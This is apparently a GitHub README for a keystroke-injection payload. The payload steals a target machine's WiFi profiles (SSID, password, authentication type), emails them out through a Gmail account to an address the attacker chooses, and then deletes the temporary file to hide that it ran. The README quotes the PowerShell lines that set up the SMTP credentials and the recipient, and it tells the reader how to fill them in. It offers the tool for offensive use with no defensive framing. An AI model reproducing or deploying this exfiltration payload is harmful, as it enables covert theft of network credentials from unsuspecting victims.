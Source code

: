 <h1>README!!</h1>
<h2>WIFI Profile capture and Email</h2>


<i>This payload Steals a targets WIFI Profile. I.E. SSID, Passowrd and Authentication type;
Saves the profile to a text file named "Profile.txt" on the targets desktop;
Then sends the contents of Profile.txt (which contains the targets wifi profile) via a gmail to an email address of your choosing.
After the WIFI Profile contents is emailed the Profile.txt file is delted and the payload leaves to trace on the targets machine of being executed.</i> 

<hr></hr>
**You must Edit the script to include a sender Gmails account creds as well as a recievers email address.

**Wifi Profile can only be sent via Gmail but can be received to any email.**  

You will need to edit the feilds for Senders and recievers email creditals.
For Senders Email go to line 101 or find this line 

<i><b> Keyboard.print("$SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('CHANGE_THIS_GMAIL_ADDRESS@gmail.com', 'CHANGE_THIS_TO_GMAIL_PASSWORD')");</b></i> 

Here you will need to change the text that says <b><i>CHANGE_THIS_GMAIL_ADDRESS@gmail.com</i></b> to the gmail address the Wifi Profile is to be sent from.

Then Change the text that says <i><b>CHANGE_THIS_TO_GMAIL_PASSWORD</b></i> to the corresponding password of the email address from above.

IE: <i><b>Keyboard.print("$SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('johndoe.techjuvi@gmail.com', 'Password1234')")</b></i>

We will also need to specify a "from" email. Find this line of code 

<i><b>Keyboard.print("$ReportEmail.From = 'CHANGE_TO_GMAIL_ADDRESS'");</b></i> on line 109 and edit the text feild labeled
<i><b>CHANGE_TO_GMAIL_ADDRESS</b></i> to the same Gmail address from above (IE: senders Gmail).

The final change you'll need to make is to specify a Revievers Email. The line of code can be found on line 113 and looks like this: 

<i><b>Keyboard.print("$ReportEmail.To.Add('CHANGE_TO_Recievers_Email_ADDRESS')");</b></i>

Simply change the text that says <i><b>CHANGE_TO_Recievers_Email_ADDRESS</b></i> to the email address you want to recieve the Target's WIFI Profile .





